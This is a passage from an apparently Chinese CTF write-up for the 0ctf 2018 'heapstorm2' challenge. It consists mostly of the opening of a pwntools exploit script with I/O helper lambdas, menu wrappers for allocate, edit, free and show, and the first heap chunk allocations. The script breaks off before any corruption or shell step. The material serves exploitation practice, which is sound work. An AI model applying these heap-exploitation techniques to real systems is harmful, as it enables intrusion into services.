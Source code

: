 	itr()
![在这里插入图片描述](https://img-blog.csdnimg.cn/96b6b52cd2734f3b8c13806244a0c5fe.png)
#### exp
	#coding:utf-8
	from pwn import *
	context(endian='little',os='linux',arch='amd64',log_level='debug')
	sh = process('./0ctf_2018_heapstorm2')
	libc = ELF('./libc-2.23.so')
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim,data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim,data)
	r       = lambda num=4096           :sh.recv(num)
	rl      = lambda num=4096           :sh.recvline(num)
	ru      = lambda delims   :sh.recvuntil(delims )
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	
	def dbg():
	        gdb.attach(sh)
	        pause()
	def add(size):
	
	    sla('Command: ','1')
	    sla('Size: ',str(size))  # 12<size<0x1000
	
	
	def edit(idx,content):
	    sla('Command: ','2')
	    sla('Index: ',str(idx))
	    sla('Size: ',str(len(content)))
	    sa('Content: ',content)
	
	
	
	def free(idx):
	    sla('Command: ','3')
	    sla('Index: ',str(idx))
	
	
	def show(idx):
	    sla('Command: ','4')
	    sla('Index: ',str(idx))
	
	#---------------布置chunk-------------------------#
	add(0x18)#0	 
	add(0x508)#1
	add(0x18)#2
 
	add(0x18)#3   
	add(0x508)#4
	add(0x18)#5   
 